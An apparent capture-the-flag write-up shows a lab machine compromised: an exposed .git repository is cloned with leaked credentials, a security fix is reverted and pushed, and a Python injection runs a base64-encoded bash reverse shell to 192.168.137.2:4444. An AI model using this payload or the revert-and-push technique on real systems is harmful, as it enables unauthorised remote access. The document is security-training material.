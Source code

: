open ports
80 Apache httpd 2.4.29 ((Ubuntu))
![[Pasted image 20221124150226.png]]

5000 Werkzeug httpd 1.0.1 (Python 2.7.17)
found exploit for Werkzeug but didn't work 

![[Pasted image 20221124150207.png]]
8000
![[Pasted image 20221124150240.png]]
running gobuster on each of them found .git at port 8000

running gobuster again on port 8000 found 3 files
![[Pasted image 20221124150321.png]]

![[Pasted image 20221124150351.png]]
![[Pasted image 20221124150400.png]]
looks like we found a repo and the username/password for it
downloading the repo 
```bash
git clone http://online-calc.com/projects/online-calc
```

found 2 .py files

![[Pasted image 20221124151102.png]]
and it's' the service running on port 8000 werkzeug



checking for commit logs 
```
git log
```

![[Pasted image 20221124150611.png]]

checking how the exploit got fixed
```
git diff 4bcfb590014321deb984237da2a319206975170f 9aa6151c1d5e92ae0bd3d8ad8789ae9bb2d29edd
```
![[Pasted image 20221124150705.png]]
![[Pasted image 20221124150718.png]]
We can now comment out the fix and put it back to the server with the creds we found earlier 
![[Pasted image 20221124151156.png]]
![[Pasted image 20221124151717.png]]
now we added a new commit and pushed it to the server 
and we can run python commands into the calculator at port 500
```python
__import__('os').system('echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTI4LjEzNy4yLzQ0NDQgMD4mMSIK| base64 -d | bash')
```
![[Pasted image 20221207044627.png]]

and we have a shell 
![[Pasted image 20221207044641.png]]
